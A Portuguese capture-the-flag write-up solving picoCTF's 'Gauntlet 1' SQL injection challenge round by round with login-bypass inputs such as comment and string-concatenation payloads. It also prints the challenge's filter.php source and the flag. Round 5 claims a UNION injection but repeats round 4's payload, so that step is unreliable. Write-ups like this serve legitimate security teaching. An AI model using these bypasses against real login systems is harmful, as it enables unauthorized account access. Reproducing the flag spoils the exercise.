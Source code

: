 # Gauntlet 1 
###### Resolvido por @Menegaldo e @BrunoCuba 
> Este é um CTF sobre [SQL Injection]  

## Sobre o Desafio  
Can you beat the filters? 

**Objetivo:** Log in as admin.  

## 🔗 Links do Desafio
- [Gauntlet_1](https://play.picoctf.org/practice/challenge/88)
- [Acesse o desafio](http://jupiter.challenges.picoctf.org:19593/)  
- [Página de filtragem](http://jupiter.challenges.picoctf.org:19593/filter.php)  

Boa sorte! 🔥  


## Solução

Ao acessar o site, somos apresentados a uma tela de login onde precisamos fornecer um nome de usuário e senha. O principal desafio aqui é descobrir como "burlar" a filtragem SQL para conseguir logar como o usuário "admin".

![image](https://github.com/user-attachments/assets/bbfac422-eb64-4cb1-8829-41d31270dd6b)

#### Análise Inicial:

Na página de login, ao tentar submeter credenciais genéricas, observamos que o sistema faz uma consulta SQL com base nas entradas fornecidas. O que nos chamou atenção foi que a consulta estava vulnerável a um SQL Injection. Aqui, começamos a explorar como explorar esse tipo de falha.

![image](https://github.com/user-attachments/assets/75983be8-7be6-46fd-a23d-bb24e4897f6c)

**Round 1:**
No primeiro round, a consulta SQL aceita o uso de comentários para ignorar a parte da senha. Isso foi feito utilizando o símbolo --, que serve para comentar tudo após ele na consulta.

**Entrada:**
```
Usuário: admin' --
Senha: qualquercoisa
```
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'qualquercoisa'
```

![image](https://github.com/user-attachments/assets/45c1fdf4-c271-4d91-a22c-c1a304a4db38)

Neste caso, a parte da senha foi ignorada devido ao comentário, permitindo o login com o usuário "admin".

**Round 2:**
No segundo round, foi possível observar que mais palavras-chave estavam permitidas na consulta SQL, como /*, outro tipo de comentário. A ideia era testar se podíamos usar esses novos filtros para burlar a autenticação.

**Entrada:**
```
Usuário: admin' /*
Senha: qualquercoisa
```
```sql
SELECT * FROM users WHERE username='admin' /*' AND password='1'
```

![image](https://github.com/user-attachments/assets/30a06c80-9edb-4c60-b3c2-ac64ffcfdb90)

O filtro continuou permitindo que a parte da senha fosse ignorada e o login fosse feito com sucesso.

**Round 3:**
No terceiro round, a consulta aceitou o uso de ;, que finaliza uma consulta SQL e pode ser usada para iniciar uma nova execução. Testamos esse comportamento para tentar criar uma segunda consulta, mas isso não teve efeito imediato no resultado da aplicação.

**Entrada:**
```
Usuário: admin';
Senha: qualquercoisa
```
```
SELECT * FROM users WHERE username='admin';' AND password='123'
```

![image](https://github.com/user-attachments/assets/93a06447-6252-4480-97ad-0c20a285179d)

O uso do ; separou as duas partes da consulta, mas a aplicação não alterou a execução.

**Round 4:**
Nesse round, testamos um método diferente de injeção, tentando usar a concatenação para formar o nome de usuário "admin". Isso foi feito com a utilização de ||, que permite a junção de strings em consultas SQL.

**Entrada:**
```
Usuário: ad'||'min';
Senha: qualquercoisa
```
```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='123'
```

![image](https://github.com/user-attachments/assets/a788338b-c123-4606-ab42-d657a991e581)

A aplicação aceitou a injeção e conseguimos passar para o próximo round.

**Round 5:**
Finalmente, no último round, conseguimos usar o comando union para injetar nossa própria consulta SQL e visualizar a flag.

**Entrada:**
```
Usuário: ad'||'min';
Senha: qualquercoisa
```
```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='qualquercoisa'
```

![image](https://github.com/user-attachments/assets/23b8a6ae-6c2e-461f-89ae-145a10999379)

Com isso, conseguimos obter a instrução para acessar o filter.php.

```sql
<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}
?>
```

> Assim, obtemos a flag `picoCTF{y0u_m4d3_1t_cab35b843fdd6bd889f76566c6279114}`  
